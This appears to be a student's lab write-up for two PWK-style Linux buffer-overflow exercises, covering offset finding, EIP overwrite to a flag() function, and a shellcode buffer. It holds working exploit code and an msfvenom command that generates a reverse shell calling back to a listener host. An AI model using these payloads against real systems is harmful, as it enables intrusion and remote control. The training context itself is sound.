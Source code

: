 
# 12.3.3
Now it is time to practice controlling EIP, _Linux_ style. You just need to overwrite EIP to point to the memory address of the _flag()_ function inside the binary you find on VM #1 at _hXXps://\[VM#1_IP\]/execution-flow-linux_ to get the flag.  
Just like with the windows challenges, this binary reads from 'exploit.txt' by default locally and from STDIN (the socket) on the server.  
You also do not get a copy of the source code or a template to assist (but you didn't need them anyways).  
Once ready, launch your raw exploit against port 5000 on VM #1 to solve this challenge and get the flag.

```bash
msf-pattern_create -l 4000
```

~~**Add addt hex values** at beginning and at the end in order for the app to correctly crash:~~ Not needed for exercises, just the **crossfire** app

```bash
payload = "<pattern>"  
  
  
with open ("exploit.txt", "wb") as f:  
    f.write((payload))
```


**NOTE:** In order to get everything working & overwriting the **EIP** in [**edb**](edb.md):  
1. install **xterm**.  
2. cd to the directory w/ the binary & exploit.txt before running **edb**  

```bash
└─$ msf-pattern_offset -l 4000 -q 45377a45  
[*] Exact match at offset 3892
```

 
Test pattern match by passing ‘A’ * 3892 + ‘B’ * 4  


**Find flag() func addr:**  

In **edb** - Plugins > Function Finder  
Select binary & Search.  Filter for _flag_  
  
  
  

Redirect **EIP** to flag() func: 
**NOTE:** You may need to hit Run twice in **edb** to get it to trigger  

```bash
eip = "\x2b\x86\x04\x08"  
  
padding = "A" * 3892  
  
buffer = padding + eip  
  
with open ("exploit.txt", "wb") as f:  
    f.write(buffer)  
```




# 12.3.4
We have released _PWK Shellcode Tester v3.0_ that is running on VM #1.  
This time, the program only accepts raw hex bytes. This updated service is available at _hXXps://\[VM#1_IP\]/shellcode-linux_.
Just like with the Windows BOFs module challenges, this binary reads from 'exploit.txt' by default locally and from STDIN (the socket) on the server.  
You can generate an x86 linux reverse shell shellcode in a raw format and forward it through netcat to VM#1 and get the flag.  
  
  
pattern offset = 98  
  
bad chars ---- **NOTE:** Had to put a breakpoint on the last **RET** to view **ESP** in dump properly as checking for bad chars wouldn't overflow the buffer (despite it being much larger than 98 chars)  
  
shellcode:  
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.231 LPORT=443 -b "x00\x0a\x0d\x1a\x43\x75\x9e\xbc" -f py -v shellcode
```


Plugins > Opcode Searcher > Opcode Search  
  
Search through the listed modules for **ESP -> EIP**  
	0x5e9a515e

```bash
eip = "\x5e\x51\x9a\x5e"  
  
nop = "\x90" * 16  
  
buffer = 'A' * 98 + eip + nop + shellcode + "\n"
```